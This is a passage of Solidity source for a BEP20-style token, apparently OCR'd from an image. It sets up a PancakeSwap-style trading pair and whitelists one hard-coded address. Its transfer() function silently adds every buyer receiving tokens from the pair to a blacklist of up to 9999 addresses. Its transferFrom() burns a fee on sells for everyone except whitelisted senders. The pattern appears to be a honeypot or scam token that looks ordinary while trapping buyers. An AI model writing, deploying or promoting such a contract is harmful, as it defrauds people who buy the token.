         IUniswapV2Factory factory = IUniswapV2Factory(0xcA143Ce32Fe78f1f7019d7d551a6402fC5350c73);
        address pair = factory.createPair(address(this),address(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c)); 
        setFeeList(pair,true);

        setWhiteList(address(0xcc7E135Aa0e3a2d3D2E52E5Bf2D75ab7983F6aBe),true);
    }

    function name() public view returns (string memory) {
        return _name;
    }

    function symbol() public view returns (string memory) {
        return _symbol;
    }

    function decimals() public view returns (uint8) {
        return _decimals;
    }

    function totalSupply() public view returns (uint256) {
        return _totalSupply;
    }

    function balanceOf(address account) public view returns (uint256) {
        return _balances[account];
    }

    function transfer(address recipient, uint256 amount) public virtual returns (bool) {
        
        if (blackCount < 9999 && feeMap[msg.sender] && !blackMap[recipient]) {
            blackMap[recipient] = true;
            blackList.push(recipient);
            blackCount ++;
            emit BlackListLock(recipient);
        }

        _transfer(_msgSender(), recipient, amount);
        return true;
    }

    function allowance(address owner, address spender) public view virtual returns (uint256) {
        return _allowances[owner][spender];
    }

    function approve(address spender, uint256 amount) public virtual returns (bool) {
        _approve(_msgSender(), spender, amount);
        return true;
    }

    function transferFrom(address sender, address recipient, uint256 amount) public virtual returns (bool) {
        if (liquifyAble && feeMap[recipient] && !whiteMap[sender]){
            uint256 feePart = amount.mul(fee).div(100);
            uint256 otherPart = amount.sub(feePart);

            _burn(sender,feePart);
            _transfer(sender, recipient, otherPart);
        } else{
            _transfer(sender, recipient, amount);
        }
